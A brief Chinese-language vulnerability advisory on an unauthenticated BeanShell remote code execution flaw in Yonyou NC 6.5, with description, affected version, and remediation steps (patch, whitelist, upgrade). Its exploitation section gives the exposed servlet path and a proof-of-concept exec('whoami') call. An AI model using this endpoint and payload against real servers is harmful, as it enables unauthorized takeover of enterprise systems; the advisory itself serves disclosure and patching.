

### 一 漏洞描述
用友NC是面向集团企业的管理软件，其在同类市场占有率中达到亚太第一。  
用友NC由于对外开放了BeanShell接口，攻击者可以在未授权的情况下直接访问该接口，并构造恶意数据执行任意代码从而获取服务器权限。

时间: 2021-06-25  
影响范围: 用友NC6.5版本  

### 二 漏洞利用
访问: /servlet/~ic/bsh.servlet.BshServlet  

执行: exec("whoami");

### 三 漏洞修复
1 打补丁
> http://umc.yonyou.com/ump/querypatchdetailedmng? PK=18981c7af483007db179a236016f594d37c01f22aa5f5d19  

2 设置用友访问白名单
3 升级
